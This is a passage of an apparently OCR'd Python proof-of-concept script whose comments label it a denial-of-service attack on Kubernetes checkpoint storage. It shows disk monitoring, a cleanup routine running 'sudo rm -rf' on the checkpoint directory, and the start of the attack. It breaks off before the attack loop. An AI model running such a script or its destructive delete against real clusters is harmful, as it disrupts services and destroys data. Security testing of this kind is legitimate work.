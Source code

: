 ```
          print(f"Response: {response.status_code}")                                                                                                                              
      except Exception as e:                                                                                                                                                      
          print(f"Request failed: {str(e)}")                                                                                                                                      
                                                                                                                                                                                  
  def monitor_disk_usage():                                                                                                                                                       
      try:                                                                                                                                                                        
          usage = shutil.disk_usage(CHECKPOINT_PATH)                                                                                                                              
          print(f"Current disk usage: {usage.used/(1024*1024):.2f} MB")                                                                                                           
      except Exception as e:                                                                                                                                                      
          print(f"Disk monitoring failed: {str(e)}")                                                                                                                              
                                                                                                                                                                                  
  def cleanup():                                                                                                                                                                  
      subprocess.run(["kubectl", "delete", "pod", POD_NAME], check=True)                                                                                                          
      subprocess.run(["rm", "-f", "test-pod.yaml"], check=True)                                                                                                                   
      subprocess.run(["sudo", "rm", "-rf", f"{CHECKPOINT_PATH}/*"], check=True)                                                                                                   
      print("Cleanup completed")                                                                                                                                                  
                                                                                                                                                                                  
  def main():                                                                                                                                                                     
      try:                                                                                                                                                                        
          # 初始化环境清理                                                                                                                                                        
          cleanup()                                                                                                                                                               
      except:                                                                                                                                                                     
          pass                                                                                                                                                                    
                                                                                                                                                                                  
      try:                                                                                                                                                                        
          # 创建测试Pod                                                                                                                                                           
          create_test_pod()                                                                                                                                                       
          wait_for_pod_ready()                                                                                                                                                    
                                                                                                                                                                                  
          # 执行DoS攻击                                                                                                                                                           
          start_time = time.time()                                                                                                                                                
          print("Starting attack...")                                                                                                                                             
                                                                                                                                                                                  
```